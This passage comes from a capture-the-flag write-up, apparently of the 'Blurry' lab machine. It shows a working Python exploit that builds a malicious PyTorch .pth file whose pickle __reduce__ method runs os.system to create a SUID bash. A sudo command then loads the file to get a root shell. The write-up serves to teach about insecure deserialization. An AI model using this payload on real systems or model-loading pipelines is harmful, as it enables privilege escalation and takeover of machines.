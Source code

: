 after some research i realised this was because the `evaluate_model` script expects model files that are serialized in the PyTorch format

 Given that the script uses torch.load(), you can leverage Python's pickle module for this purpose.

 going forward with that info i came up with this script featuring chatgpt

```python
import torch
import os

class Exploit(torch.nn.Module):
    def __init__(self):
        super(Exploit, self).__init__()

    def forward(self):
        pass

    def __reduce__(self):
        return (os.system, ('cp /bin/bash /tmp/bash; chmod +s /tmp/bash; /tmp/bash',))

exploit = Exploit()
torch.save(exploit, 'exploit.pth')
```
#### summary of the script
torch: This is the PyTorch library. We use it to serialize (save) objects to .pth files, which is a common format for PyTorch models.
os: This library gives access to operating system functionalities, which we use to run shell commands.

`Exploit(torch.nn.Module)`: This class inherits from torch.nn.Module, making it compatible with PyTorch's serialization methods

`forward method`: A dummy forward method is defined, which is a requirement when you inherit from torch.nn.Module. In a real neural network, the forward method would define the forward pass (how the data moves through the layers of the network), but in this case, it does nothing since we're only using the class to deliver the payload.

the `__reduce__` method is hijacked to return a system command (os.system) instead of normal serialized data. When this object is deserialized (unpickled) during model evaluation, the operating system will execute the command provided 

### Priviledge Escalation
When you run this script it gives you and exploit.pth file
copy that file to the /models/ directory

and run your command
```bash
sudo /usr/bin/evaluate_model /models/exploit.pth
```
you'll get a root shell :)
we’ve successfully pwned Blurry! We used a combination of local privilege escalation and file format exploitation to gain root access. By crafting a malicious .pth file and leveraging the PyTorch model loading mechanism, we bypassed the security checks and executed our payload to escalate privileges

i still got one more in me  🙂

